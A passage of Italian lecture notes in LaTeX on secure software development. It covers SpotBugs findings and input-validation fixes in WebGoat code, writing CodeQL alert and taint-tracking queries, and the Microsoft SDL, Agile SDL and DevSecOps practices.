della stringa SQL. Un attaccante potrebbe fornire un input malevolo, alterando la 
logica della query backend (es. aggirando i controlli di autenticazione o 
esfiltrando l'intero database). SpotBugs segnala la regola: 
\begin{gather*}
\text{java/sql/Statement.executeQuery(Ljava/lang/String;)Ljava/sql/ResultSet;}
\end{gather*}
indicando che una stringa potenzialmente contaminata (\textit{tainted}) sta 
raggiungendo un sink pericoloso.

\begin{lstlisting}
// L'input viene forzato a intero prima di qualsiasi uso
int employeeId = s.getParser().getIntParameter(CrossSiteScripting.EMP_ID);
\end{lstlisting}

Estraendo l'input tramite \textit{getIntParameter} (casting a \textit{int}), 
eliminiamo alla radice la possibilità di iniettare sintassi SQL (come apici singoli 
"'" o operatori testuali). Se l'attaccante passa una stringa malevola, il parser 
solleverà un'eccezione \textit{NumberFormatException}, bloccando l'esecuzione. 
L'alternativa consigliata dal tool è l'uso di \textit{Prepared Statements}, che 
inviano la query pre-compilata e i parametri separatamente al database.

\begin{lstlisting}
if(item.getName().contains("/") || item.getName().contains("\\")){
    System.out.println("Uploaded file contains a / or \\");
    s.setMessage("Directory traversal not allowed.");
} else {
    String uploaded_file_path = uploads_and_target_parent_directory 
        + UPLOADS_RELATIVE_PATH
        + java.io.File.separator
        + item.getName();
    File uploadedFile = new File(uploaded_file_path);
} 
\end{lstlisting}

In questo caso l'applicazione riceve il nome di un file in upload (\textit{item.getName()}) 
e lo usa per costruire un percorso su disco. Sebbene lo sviluppatore di WebGoat 
abbia inserito un blocco parziale (il controllo fatto dall'\textit{if}), l'analizzatore
segnala comunque l'uso di una variabile utente nell'istanziazione della classe \textit{File},
potenziale vettore per attacchi di \textit{Directory Traversal}. Qui SpotBugs segnala la regola:
\begin{gather*}
\text{This API (java/io/File.<init>(Ljava/lang/String;)V) reads a file whose location}
\\
\text{might be specified by user input}
\end{gather*}

\subsection{GitHub CodeQL}

A differenza dei linter basati su pattern matching testuale o su regole hard-coded, 
CodeQL si aggancia alla toolchain di compilazione (es. Maven) e costruisce un 
\textit{Abstract Syntax Tree (AST)} del programma, salvandolo in un database 
relazionale locale.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo7/codeql.png}
    \label{fig:codeql}
\end{figure}

Il linguaggio CodeQL è dichiarativo e orientato agli oggetti, strutturato in tre 
clausole primarie: \textbf{from} (dichiarazioni di variabili), \textbf{where} 
(condizioni logiche), e \textbf{select} (output desiderato).

Quando si analizza il codice con CodeQL, le query si dividono principalmente in due categorie:

\begin{itemize}
    \item \textbf{Alert Queries}: Servono a identificare punti specifici nel codice 
    che violano una regola o rappresentano una vulnerabilità. L'output di queste 
    query è solitamente un singolo nodo o una posizione nel codice (ad esempio, "qui 
    c'è un blocco vuoto" o "qui viene chiamata una funzione deprecata").
    \item \textbf{Path Queries}: Vengono utilizzate per le analisi più complesse, 
    come la \textit{Dataflow Analysis} e la \textit{Taint Analysis}. Invece di 
    restituire un singolo punto, tracciano un intero percorso del flusso di 
    informazioni da un punto di origine (\textit{source}) fino a un punto di 
    destinazione (\textit{sink}), permettendo di capire come i dati viaggiano 
    all'interno del programma.
\end{itemize}

\textbf{Alert Queries}

Il linguaggio CodeQL permette di scrivere query con livelli di astrazione crescenti, 
rendendo il codice estremamente riutilizzabile. Vediamo i tre approcci principali:

Esempio \textit{Base}:

\begin{lstlisting}
import java
from BlockStmt block
where block.getNumStmt() = 0
select block, "This block-statement is redundant."  
\end{lstlisting}

In questo esempio CodeQL scansiona il database chiedendo di trovare tutte 
le entità di tipo \textit{BlockStmt} (blocchi di codice tra parentesi graffe \{...\}) 
che contengono zero istruzioni interne.

Esempio con \textit{Predicato}: 

\begin{lstlisting}
import java
predicate isEmpty(BlockStmt block) {
    block.getNumStmt() = 0
}
from BlockStmt block
where isEmpty(block)
select block, "This block-statement is redundant."
\end{lstlisting}

In questo esempio, invece di scrivere la condizione direttamente nel \textit{where}, 
viene incapsulata nel predicato \textit{isEmpty}. La query cerca tutti i blocchi di 
istruzioni (\textit{BlockStmt}) e usa il predicato per filtrare solo quelli che 
contengono zero istruzioni.

Esempio con \textit{Classe}: CodeQL è orientato agli oggetti, si può definire una 
Classe per creare un sottoinsieme logico di un tipo esistente, usando un predicato 
al suo interno.

\begin{lstlisting}
import java
class EmptyBlock extends BlockStmt {
    EmptyBlock() { this.getNumStmt() = 0 }
}
from BlockStmt block
where block instanceof EmptyBlock
select block, "This block-statement is redundant."
\end{lstlisting}

Qui si crea una classe \textit{EmptyBlock} che estende \textit{BlockStmt}. La 
condizione che definisce l'appartenenza a questa classe è racchiusa nel 
costruttore (\textit{this.getNumStmt() = 0}). La query finale diventa: seleziona i 
blocchi che sono istanza di \textit{EmptyBlock}.

\textbf{Path Queries}

Sia la \textbf{Dataflow Analysis} che il \textbf{Taint Tracking} rientrano nella 
categoria delle Path Queries; il loro scopo è capire se un dato non attendibile che 
entra in un punto A (chiamato \textit{Source}) riesce a fluire fino a un punto B 
sensibile o pericoloso (chiamato \textit{Sink}) senza essere prima bloccato o pulito.

\textbf{1. Dataflow Analysis}

La \textbf{Dataflow Analysis} in CodeQL cerca le connessioni tra \textit{source} e \textit{sink} 
tracciando esclusivamente i flussi che preservano il valore esatto del dato 
(\textit{value-preserving flows}). Questo significa che è configurata per essere 
molto conservativa, con l'obiettivo principale di \textbf{evitare i falsi positivi}.

\begin{lstlisting}
String s = a.mySource(); // Source (Dato non sicuro)
String r = s + " test";  // Il dato viene modificato
b.mySink(r);             // Sink (Punto critico)
\end{lstlisting}

Se utilizziamo la Dataflow Analysis pura, CodeQL ignorerà questo percorso. Perché? 
Perché il valore originale di $s$ non è arrivato intatto al \textit{sink}; è stato 
concatenato con la stringa \textit{" test"}. Poiché il valore non è stato 
strettamente preservato, l'analisi si ferma per non rischiare di lanciare un falso 
allarme. Se invece il codice fosse stato semplicemente \textit{String r = s;}, la 
Dataflow Analysis avrebbe rilevato il flusso.

Vediamo dunque come si scrive la query:

\begin{lstlisting}
import java
import semmle.code.java.dataflow.DataFlow::DataFlow
from MethodCall a, MethodCall b, VarAccess arg
where a.getMethod().getName() = "mySource" and
      b.getMethod().getName() = "mySink" and
      arg = b.getAnArgument() and
      localFlow( exprNode(a),
                 exprNode(arg)
      )
select arg, "Data-flow found to mySink()"
\end{lstlisting}

Qui notiamo un dettaglio tecnico fondamentale: \textit{exprNode()}. CodeQL mantiene 
due mondi separati: l'AST (\textit{Abstract Syntax Tree}, che rappresenta la 
sintassi del codice) e il \textit{Data-Flow Graph} (il grafo logico di come 
fluiscono i dati). La funzione \textit{exprNode()} serve proprio a prendere un 
elemento sintattico dell'AST e convertirlo nel suo nodo corrispondente all'interno 
del grafo del flusso di dati, permettendo a \textit{localFlow} di verificare se sono connessi.

Specifichiamo che i predicati \textit{localFlow} e \textit{localTaint} compiono una 
\textbf{Local ("intra-procedural")} data flow; in questa tipologia i modelli circolano 
all'interno di una singola funzione e per questo sono leggeri. I predicati \textit{isSource} e 
\textit{isSink} compiono una \textbf{Global ("inter-procedural")} data flow; in tale
tipologia i modelli circolano tra le varie chiamate di funzione e per questo il calcolo 
può risultare più oneroso.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo7/astTodfg.png}
    \label{fig:astTodfg}
    \caption{Da AST a DFG}
\end{figure}

\textbf{2. Taint Tracking}

Il \textbf{Taint Tracking} fa un passo oltre: segue la "contaminazione" del dato, 
tracciando anche i flussi che non preservano il valore (\textit{non-value-preserving flows}). 
Se una variabile tocca un dato contaminato (\textit{tainted}), viene considerata 
contaminata a sua volta. È un approccio meno conservativo che accetta di generare 
qualche falso positivo in più, pur di scovare vulnerabilità reali sfuggenti.

Con lo stesso codice di prima:

\begin{lstlisting}
String s = a.mySource(); // Source (Dato non sicuro)
String r = s + " test";  // Il dato viene modificato
b.mySink(r);             // Sink (Punto critico)
\end{lstlisting}

Se usiamo il Taint Tracking, CodeQL rileverà il percorso. Anche se $s$ è stato 
modificato, la variabile $r$ è stata chiaramente "influenzata" da $s$ e quindi 
risulta contaminata. Quando $r$ arriva a \textit{mySink()}, scatta l'allarme.

La struttura della query è quasi identica a quella precedente, ma utilizza un modulo diverso:

\begin{lstlisting}
import java
import semmle.code.java.dataflow.DataFlow::DataFlow
import semmle.code.java.dataflow.TaintTracking
from MethodCall a, MethodCall b, VarAccess arg
where a.getMethod().getName() = "mySource" and
      b.getMethod().getName() = "mySink" and
      arg = b.getAnArgument() and
      TaintTracking::localTaint(
                                exprNode(a),
                                exprNode(arg)
                                )
select b, "Taint propagation found to mySink()"
\end{lstlisting}

\textbf{3. Taint Tracking Globale e Configurazioni Custom}

I metodi \textit{localFlow} e \textit{localTaint} sono utili ma limitati, poiché 
guardano solo all'interno di una singola funzione. Le vulnerabilità vere, però, 
viaggiano attraverso molte chiamate a funzioni diverse (analisi "inter-procedurale" 
o Globale).

Per fare un \textbf{Taint Tracking Globale}, CodeQL richiede di scrivere una 
configurazione personalizzata, creando un modulo che implementa \textit{DataFlow::ConfigSig}. 
In questa configurazione si deve definire esplicitamente le regole del gioco:

\begin{lstlisting}
public static void main(String[] args) {
    MyClassA a = new MyClassA();
    MyClassB b = new MyClassB();
    String s = a.mySource();
    String r = s + " test";
    boolean match = Pattern.matches("^[a-zA-Z]$", r);
    if(match == false) {
        System.out.println("Taint detected!");
        System.exit(1);
    }
    b.mySink(r);
}
\end{lstlisting}

\begin{enumerate}
    \item \textbf{isSource}: Definisce da dove parte la contaminazione. Nell'esempio, 
    la query cerca le chiamate al metodo \textit{mySource()} della classe \textit{MyClassA}.
    \item \textbf{isSink}: Definisce dove non vogliamo che i dati contaminati arrivino.
    Nell'esempio, il sink è definito come l'argomento passato al metodo \textit{mySink()} 
    della classe \textit{MyClassB}.
    \item \textbf{isBarrier}: Definisce un nodo che "ripulisce" il dato, bloccando 
    il taint tracking. Nell'esempio, il codice usa un'espressione regolare (\textit{Pattern.matches(...)}) 
    per validare l'input. Il predicato \textit{isBarrier} istruisce CodeQL a smettere 
    di tracciare la variabile se passa attraverso questo controllo, evitando così un 
    falso positivo.
\end{enumerate}

Mentre prima usavamo \textit{exprNode()} per passare dall'AST al Grafo dei Dati, 
all'interno di questa configurazione globale vediamo l'uso inverso di \textit{asExpr()}. 
I predicati \textit{isSource}, \textit{isSink} e \textit{isBarrier} ricevono in input 
dei nodi del Grafo dei Dati (\textit{DataFlow::Node}), ma per capire se quel nodo 
rappresenta la chiamata a \textit{mySource()} o \textit{mySink()}, dobbiamo prima 
convertirlo indietro in un nodo sintattico dell'AST usando \textit{node.asExpr()}. 
Solo allora possiamo ispezionarne il nome, la classe di appartenenza o gli argomenti.

\begin{lstlisting}
module MyConfig implements DataFlow::ConfigSig {
    predicate isSource(DataFlow::Node n) { ... }
    predicate isSink(DataFlow::Node n) { ... }
    predicate isBarrier(DataFlow::Node n) { ... }
    ...
}
\end{lstlisting}
\chapter{Security Development Lifecycle}

Storicamente, la sicurezza del software veniva affrontata in modo reattivo: si 
sviluppava il codice e, solo alla fine, si facevano test di penetrazione o si 
aspettava che gli attaccanti trovassero le vulnerabilità per poi rilasciare una 
patch (approccio \textit{Penetrate and Patch}).

Questo approccio si è rivelato disastroso per diversi motivi ingegneristici ed 
economici:

\begin{itemize}
    \item \textbf{Ritardo nel rilevamento e risoluzione}: In media, ci vogliono 197 giorni 
    per rilevare una vulnerabilità e ulteriori 69 giorni per sviluppare e distribuire un fix.
    \item \textbf{Effetti collaterali delle patch}: Le patch sviluppate in fretta 
    introducono spesso nuove vulnerabilità o problemi di instabilità. Esempio di ciò 
    sono le prime patch rilasciate da Microsoft per mitigare la vulnerabilità 
    \textit{Meltdown}; a causa della fretta, la patch per Windows 7 ha introdotto 
    una vulnerabilità ben peggiore a livello software, permettendo a qualsiasi 
    processo in user-space di leggere e scrivere arbitrariamente in memoria.
    \item \textbf{Ritardo nell'applicazione dei fix}: Gli amministratori di sistema 
    sono spesso riluttanti ad applicare le patch per paura di causare disservizi 
    nei sistemi in produzione.
\end{itemize}

Per superare questo limite, nei primi anni 2000 inizia il primo approccio di uno 
sviluppo "sicuro" del software, l'iniziativa di Microsoft \textit{Trustworthy Computing Memo} 
è forse l'evento più significativo di questo cambiamento. L'industria ha iniziato ad 
integrare la sicurezza in ogni fase del ciclo di vita del software, portando alla 
formalizzazione del \textbf{Microsoft SDL} nel 2006.

\section{Microsoft SDL}

La fase di design è dove l'SDL garantisce il maggiore ritorno sull'investimento (ROI). 
Invece di scrivere codice e poi cercare i bug, si progetta un'architettura resiliente.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo8/sdl.png}
    \label{fig:sdl}
\end{figure}

\textbf{Provide Training}

Nella prima fase si sottolinea l'importanza di sensibilizzare i manager di un progetto, 
tutto il personale in generale, sulla Security. Coinvolgere tutti è importante e 
devono inoltre essere aggiornati sui principali strumenti e linguaggi volti alla sicurezza.

\textbf{Define Security Requirements}

In questa fase si raccolgono i requisiti si sicurezza fin dalle prime fasi dello sviluppo 
software. Fattori importanti da tenere in considerazione sono: requisiti di conformità
per la legalità e l'industria, standard interni ed esterni, informazioni raccolte dagli 
incidenti del passato e minacce note. 

Tecnica da utilizzare durante questa fase sono gli \textbf{Abuse Cases}: invece di 
limitarsi agli "Use Cases" (casi d'uso legittimi), si modellano gli Abuse Cases 
estendendo i diagrammi UML. Ad esempio in un'applicazione di e-commerce, mentre l'utente
legittimo ha gli use case "Login" e "Esegui un ordine", ci sono attori come il \textit{Cracker}
che cerca di "Rubare ID e password" (mitigato imponendo policy sulle password come il cambio 
periodico di esse) oppure l'\textit{Amministratore demotivato} che potrebbe "Manipolare la lista oggetti"
(mitigato da sistemi di validazione e log).

\textbf{Define Metrics and Compliance Reporting}

È legittimo avere un indicatore della Security del nostro prodotto; il problema è che non 
possiamo sapere e nemmeno misurare quante vulnerabilità ci siano nel nostro progetto software.
Per tale motivo le misure vengono condotte in modo indiretto: le metriche adottate prendono il 
nome di \textbf{KPIs}. Ci si chiede prima di tutto quanti difetti sulla sicurezza noti non sono stati 
ancora fixati e quanto tempo si è impiegato a risolverli. Le vulnerabilità critiche note 
devono essere fixate in una finestra temporale specifica.

\textbf{Perform Threat Modeling}

Il Threat Modeling serve a identificare falle di design prima di scrivere una singola 
riga di codice. Si utilizzano i \textbf{Data Flow Diagram (DFD)} per mappare i 
componenti del sistema (processi, datastore) e, soprattutto, i \textit{Trust Boundaries} tracciando ad esempio 
il confine tra una rete pubblica e un database interno.

Il Threat Modeling inoltre elenca le minacce in modo sistematico: per ogni componente 
si seleziona una o più minacce dalla tassonomia \textbf{STRIDE}:

\begin{itemize}
    \item \textbf{S}poofing (Falsificazione dell'identità)
    \item \textbf{T}ampering (Manomissione dei dati)
    \item \textbf{R}epudiation (Azioni non tracciabili/ripudiabili)
    \item \textbf{I}nformation Disclosure (Fuga di dati sensibili)
    \item \textbf{D}enial of Service (Compromissione della disponibilità)
    \item \textbf{E}levation of Privilege (Ottenere privilegi non autorizzati)
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo8/stride.png}
    \label{fig:stride}
\end{figure}

L'esempio riportato in figura mostra l'interazione tra una Web Application e un Database SQL. 
Se un attaccante invia dati non validati, questa minaccia è classificata come \textit{Tampering} 
(tramite attacco \textit{SQL Injection}) perché altera i dati e il normale flusso di 
esecuzione della query sul DB.

\textbf{Establish Design Requirements}

Questi principi storici rimangono le fondamenta del \textit{secure design}; 
soffermiamoci su alcuni principi classici:

\begin{itemize}
    \item \textbf{Open Design}: Il design non deve basarsi sull'oscurità (\textit{security by obscurity}),
    infatti l'uso di credenziali hardcoded nel codice eseguibile è altamente sconsigliabile in quanto si 
    presume sempre che l'attaccante possa fare reverse engineering dell'eseguibile ed estrarre la stringa.
    \item \textbf{Least Privilege}: Un processo deve operare con i permessi minimi necessari. Esempio 
    di violazione di tale principio: un programma deve leggere un file di root all'avvio ma non esegue 
    un drop dei privilegi prima di chiamare un'altra applicazione, permettendo l'esecuzione di codice arbitrario 
    con privilegi massimi.
    \item \textbf{Fail-safe defaults}: All'occorrere di uno stato erroneo si deve procedere 
    ad eseguire un fall-back ad uno stato sicuro.
    \item \textbf{Economy of Mechanism}: Evitare complessità eccessiva (non necessaria) nei 
    meccanismi di sicurezza (es. REGEX DoS, IPSec).
\end{itemize}

\textbf{Define and Use Cryptography Standards}

Bisogna sempre utilizzare standard di crittografia chiari e riconosciuti dagli esperti, 
nonché di librerie di crittografia adeguatamente verificate. Microsoft stessa fornisce 
una pagina dedicata per assisterci sulla scelta dell'algoritmo di crittografia più 
giusto al caso nostro.

\textbf{Manage the Security Risk of Using Third-Party Components}

Il 95\% delle applicazioni moderne è composto da librerie open-source o di terze 
parti (con una media di 257 dipendenze per app). Non scriviamo la maggior parte del 
codice che eseguiamo, e questo apre scenari di attacco devastanti. Anche i componenti 
open source ritenuti sicuri possono avere vulnerabilità, bisogna quindi gestire in 
modo sicuro i vari componenti. Bisogna avere una mappa dei componenti che si sta 
utilizzando, dotarsi di un piano di risposta per analizzare, attraverso dei tool, la 
presenza o meno di possibili problemi. 

Inquinare un componente open source per arrivare ad attaccare un determinato prodotto 
software che fa uso di quel componente è un rischio concreto e ancora più grave della 
"semplice" vulnerabilità presente nel singolo componente. Sembra impensabile eppure è un 
rischio concreto: nel febbraio 2024 una backdoor malevola fu inserita all'interno di una 
libreria di OpenSSH.

\textbf{Use Approved Tools}

Anche gli strumenti di sviluppo devono essere approvati, meglio usare quelli originali.
È importante sottolinearlo siccome è successo nel passato che alcuni tool erano portatori
di malware come nel caso di \textit{XcodeGhost}: una versione pirata, ma anche malevola, 
del compilatore \textit{Xcode} per iOS.

\textbf{Perform Static/Dynamic Analysis Security Testing}

Una volta scritto il codice, vanno applicati tool di verifica automatici e manuali:

\begin{itemize}
    \item \textbf{SAST}: Analizzare il codice senza eseguirlo per trovare pattern di 
    codice insicuro, credenziali hardcoded, algoritmi crittografici deprecati, generatori 
    di numeri pseudocasuali deboli, ecc.
    \item \textbf{DAST}: Analizzare il programma in esecuzione inviando input malformati 
    per trovare vulnerabilità di sessione, difetti di autenticazione, dati sensibili 
    inviati in chiaro, ecc.
\end{itemize}

\textbf{Perform Penetration Testing}

Gli hacker \textit{white-hat} (etici) si fingono attaccanti e simulano azioni dannose 
sul sistema; si tratta quindi di un'attività che complementa l'attività di analisi statica/dinamica.

\textbf{Establish a Standard Incident Response Process}

Le organizzazioni devono essere preparate ad affrontare le inevitabili vulnerabilità.
Bisogna predisporre in modo proattivo un piano di risposta agli incidenti per stabilire:

\begin{itemize}
    \item chi contattare in caso di emergenza di sicurezza
    \item il protocollo per una mitigazione efficiente delle vulnerabilità
    \item il protocollo per la risposta ai clienti e la comunicazione
    \item il protocollo per la rapida implementazione di una correzione
\end{itemize}

\section{Agile}

Le metodologie Agile si basano su cicli iterativi molto brevi (gli \textit{Sprint}, che 
durano da 2-4 settimane, o anche rilasci giornalieri) e si concentrano soprattutto sui 
requisiti.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo8/agile.png}
    \label{fig:agile}
\end{figure}

Questo approccio entra in conflitto con il modello tradizionale del Security 
Development Lifecycle di Microsoft. L'SDL classico, infatti, prevede centinaia di 
requisiti obbligatori ed è pensato per prodotti con cicli di sviluppo lunghi, spesso 
di diversi anni. Negli ambienti Agile è necessario trovare un compromesso tra i 
requisiti di sicurezza e i tempi stretti di rilascio.

Per risolvere questo problema, l'\textbf{Agile SDL} organizza i requisiti di sicurezza in tre 
categorie:

\begin{itemize}
    \item \textbf{Every-Sprint requirements (Requisiti per ogni sprint)}: Sono attività fondamentali da fare 
    sempre per prevenire vulnerabilità critiche. Ad esempio bisognerebbe fare sempre il 
    \textit{Threat Modeling} per ogni nuova funzionalità introdotta o seguire le linee 
    guida per la validazione degli input.
    \item \textbf{One-time requirements (Requisiti una tantum)}: Attività da completare una sola volta 
    all'inizio del progetto o entro un periodo di grazia. Ad esempio configurare il 
    sistema di bug tracking o definire il \textit{Threat Model} di base dell'applicazione.
    \item \textbf{Bucket requirements (Requisiti a rotazione)}: Attività raggruppate in "secchi"; il team 
    deve pescare e completare un'attività da questi secchi periodicamente, spalmando 
    il carico di lavoro nel tempo. Ad esempio fare il \textit{fuzz testing} o revisionare il 
    design crittografico.
\end{itemize}

Il consorzio \textbf{SAFECode} fornisce linee guida specifiche per adattare la 
sicurezza ad Agile. Invece di imporre regole astratte, traduce le vulnerabilità 
(\textit{OWASP Top 10}) in:

\begin{itemize}
    \item \textbf{Security-focused stories}: Requisiti di sicurezza scritti come 
    \textit{User Stories}, ad esempio: "\textit{Come sviluppatore, voglio assicurarmi 
    che tutte le eccezioni siano gestite correttamente per evitare la perdita di dati 
    sensibili (CWE-754)}".
    \item \textbf{Operational security tasks}: Compiti operativi continui, come 
    tracciare le patch delle dipendenze di terze parti o utilizzare sempre le versioni 
    più recenti dei compilatori.
\end{itemize}

\section{Da DevOps a DevSecOps}

Il \textbf{DevOps} integra strettamente lo sviluppo (\textit{Dev}) e le operazioni di 
sistema (\textit{Ops}) per garantire consegne del software veloci e continue. Il 
\textbf{DevSecOps} fa un passo ulteriore: fonde le attività di sicurezza (\textit{Sec}) 
all'interno di tutto il ciclo DevOps, rendendola una responsabilità condivisa e 
continua.

L'implementazione del DevSecOps si basa su principi chiave:

\begin{itemize}
    \item \textbf{Uso di strumenti e Automazione}: I controlli di sicurezza devono 
    essere integrati nella pipeline CI/CD (\textit{Continuous Integration/Continuous 
    Deployment}). Questi strumenti devono generare pochi "falsi positivi" e non 
    devono richiedere agli sviluppatori competenze di sicurezza estreme.
    \item \textbf{Protezione delle Credenziali}: Nelle pipeline automatizzate c'è il 
    rischio di esporre dati sensibili (es. stringhe di connessione a database, chiavi 
    private, password hardcoded).
    \item \textbf{Apprendimento e Monitoraggio Continuo}: Monitorare le performance e 
    la sicurezza a \textit{run-time} per ridurre drasticamente i tempi necessari a 
    identificare e contenere un attacco.
\end{itemize}

\textbf{GitHub} è l'esempio più lampante dell'applicazione del DevSecOps e, in particolare, del 
concetto dello "\textit{Shift Left}", ovvero spostare i controlli di sicurezza il prima 
possibile nel ciclo di vita del software (verso sinistra in una classica linea 
temporale di sviluppo).

Invece di fare un \textit{Penetration Test} solo alla fine, con il rischio di dover 
riscrivere l'app intera se si trovano falle di design, si integrano analisi in ogni 
fase:

\begin{itemize}
    \item \textbf{Durante la scrittura del codice}: Plugin nell'IDE dello sviluppatore 
    e strumenti SAST analizzano il codice in tempo reale o durante la \textit{Pull Request}.
    \item \textbf{Durante la CI/Testing}: Vengono eseguiti controlli DAST sulle \textit{build}
    automatiche.
    \item \textbf{Fase finale}: I test di penetrazione e i programmi di \textit{Bug Bounty} 
    fungono da ultimo livello di garanzia.
\end{itemize}

\subsection{Maturità del DevSecOps}

L'ultimo concetto da affrontare è realistico: un'azienda che approccia la sicurezza 
per la prima volta non può essere sicura al 100\% dal giorno 1.

Per valutare a che punto si trova un'organizzazione, si usano i \textbf{Modelli di Maturità} come 
SAMM, BSIMM o l'OWASP DSOMM (\textit{DevSecOps Maturity Model}). 
Questi modelli classificano l'azienda su 5 livelli, dall'iniziazione fino all'ottimizzazione 
avanzata.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\linewidth]{img/capitolo8/devsecops.png}
    \label{fig:devsecops}
\end{figure}

Inizialmente, l'azienda implementerà strumenti base (SAST, DAST, SCA) con configurazioni 
standard, magari facendoli girare solo una volta a settimana o al mese. Le prime 
scansioni troveranno moltissimi errori, inclusi molti falsi positivi e gli sviluppatori 
potrebbero provare diffidenza verso questi nuovi strumenti che rallentano il loro 
